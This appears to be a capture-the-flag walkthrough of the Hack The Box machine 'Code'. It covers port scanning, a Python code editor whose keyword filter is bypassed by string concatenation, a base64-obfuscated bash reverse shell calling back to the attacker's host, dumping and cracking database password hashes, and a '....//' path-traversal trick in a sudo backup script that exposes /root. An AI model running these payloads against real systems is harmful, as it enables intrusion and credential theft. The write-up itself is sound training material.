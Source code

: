```yaml
---
name: Code
difficulty: easy
os: linux
platform: htb
date: 2025/07/01
releasedDate: 2025-08-03
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png
---
```


## Enumeration


We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```

We can see that port 22 is open, which is the SSH service.

Now we will scan for all tcp, open and filtered, ports

```bash
nmap -p- -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPortsFiltered
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```

We can see that port 5000 is also open.

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,5000 -sCV 10.10.11.62 -o targeted
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploitation

When accessing `http://10.10.11.62` it shows up a python code editor. We can create a new file and write some Python code in it. The web application allows us to execute the code we write.

We write the following Python code to do ls for `/` and `/home`:

```python
oas = sys.modules['o'+'s']
print(oas.listdir('.'))

print(oas.listdir('/'))
print(oas.listdir('/home'))
#print(oas.listdir('/ro'+'ot'))
```

```
['app.py', 'static', 'templates', '__pycache__', 'instance']
['bin', 'lib64', 'proc', 'run', 'sbin', 'usr', 'lib32', 'home', 'var', 'srv', 'libx32', 'boot', 'tmp', 'lost+found', 'lib', 'root', 'sys', 'media', 'mnt', 'etc', 'dev', 'opt']
['martin', 'app-production']
```

Note that the system blocks some strings like `os`, `import` or `root` in the code editor, so we have to use other ways to access the modules and directories.
As we can see, we can find the home directory of the user `martin` and the `app-production` directory. We do not have access to `/root`

We dont have access to `/home/martin`

We can do ls on the `app-production` directory:

```python
oas = sys.modules['o'+'s']
print(oas.listdir('/home/app-production'))
```

```
['user.txt', '.local', '.sqlite_history', '.profile', '.python_history', '.cache', '.bash_logout', '.bash_history', '.bashrc', 'app']
```

We can see that we have a file called `user.txt` in the `app-production` directory. We can read it using the following code:

```python
wd = sys.modules['subpr'+'ocess']
output = wd.check_output(['cat', '/home/app-production/user.txt'])
print(output.decode())
```

```
user flag value
```

We can access the machine using a reverse shell. We can use the following Python code

```python
a = sys.modules['subp' + 'rocess']
output = a.check_output('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42O' +
                         'S80NDQ0IDA+JjE= | base64 -d | bash', shell=True)
print(output.decode())
```

This code will execute a reverse shell command that connects back to our machine. Make sure to set
up a listener on your machine to catch the reverse shell

```bash
nc -lvnp 4444
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We can access the web page source code at app.py and we find the database access:

```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

We also see that there is a table called `USER` in the database. We can use the credentials to access the database and retrieve the user information.
We can use the `sqlite3` command-line tool to access the SQLite database.

```bash
sqlite3 instance/database.db "SELECT * FROM USER;"
```

```
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|test|c06db68e819be6ec3d26c6038d8e8d1f
```

We can see that there are three users in the database: `development`, `martin`, and `test`. It looks like the passwords are hashed.
We can use `https://crackstation.net/` to crack the hashes. After cracking the hashes, we find the following credentials:

```
development:development
martin:nafeelswordsmaster
test:test12345
```

This allows us to access the machine as the user `martin` with the password `nafeelswordsmaster` through SSH.

```bash
ssh martin@10.10.11.62
```

## Root Exploitation

Once we have access to the user `martin`, we can check what sudo privileges the user has.

```bash
sudo -l
```

```
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

As we can see, the user `martin` has the ability to run the script `/usr/bin/backy.sh` as root without a password. We can check the contents of the script to see if it is vulnerable or misconfigured.

This script is a script that backups a directory. We can pass as parameter this json configuration file

```
{
  "destination": "/home/martin/test/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root"
  ],
  "exclude": [
    "test"
  ]
}
```

Note that the `directories_to_archive` field contains a path to `/var/....//root`, because the script removes `../` from the path, it will end up being `/var/../root`, which is the root directory `/root`.

And then run the script as root:

```bash
sudo /usr/bin/backy.sh /home/martin/task.json
```

It will create a backup of the `/root` directory the `/home/martin/test/`. We can extract the backup and find the root flag:

```bash
tar -xvjf code_var_.._root_2025_July.tar.bz2
cat root/root.txt
```

```
root flag value
```

## Conclusion

This walkthrough demonstrates how to exploit a vulnerable web application to gain access to the user and root flags. We used Python code execution to read files and execute commands, and we exploited a misconfigured backup script to gain root access. This highlights the importance of secure coding practices and proper configuration management in web applications.
This walkthrough is for educational purposes only. Always ensure you have permission to test and exploit systems.
